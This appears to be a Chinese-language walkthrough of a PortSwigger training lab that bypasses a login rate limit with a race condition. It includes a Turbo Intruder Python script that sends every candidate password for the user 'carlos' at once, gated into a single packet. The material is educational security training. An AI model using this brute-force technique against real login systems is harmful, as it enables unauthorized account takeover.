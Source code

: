 



## 35.实验室：通过竞争条件绕过速率限制

![image-20250715171009588](portswigger.assets/image-20250715171009588.png)

1. 右键单击并选择**扩展> Turbo Intruder> 发送到 turbo intruder**。

2. 在 Turbo Intruder 中，在请求编辑器中，请注意参数的值`password`会自动用占位符标记为有效载荷位置`%s`。

3. 将参数更改`username`为`carlos`。

4. 从下拉菜单中选择`examples/race-single-packet-attack.py`模板。

5. 在 Python 编辑器中，编辑模板，以便您的攻击使用每个候选密码将请求排队一次。为简单起见，您可以复制以下示例：

   ```python
   def queueRequests(target, wordlists):
   
       # as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
       engine = RequestEngine(endpoint=target.endpoint,
                              concurrentConnections=1,
                              engine=Engine.BURP2
                              )
       
       # assign the list of candidate passwords from your clipboard
       passwords = wordlists.clipboard
       
       # queue a login request using each password from the wordlist
       # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
       for password in passwords:
           engine.queue(target.req, password, gate='1')
       
       # once every request has been queued
       # invoke engine.openGate() to send all requests in the given gate simultaneously
       engine.openGate('1')
   
   
   def handleResponse(req, interesting):
       table.add(req)
   ```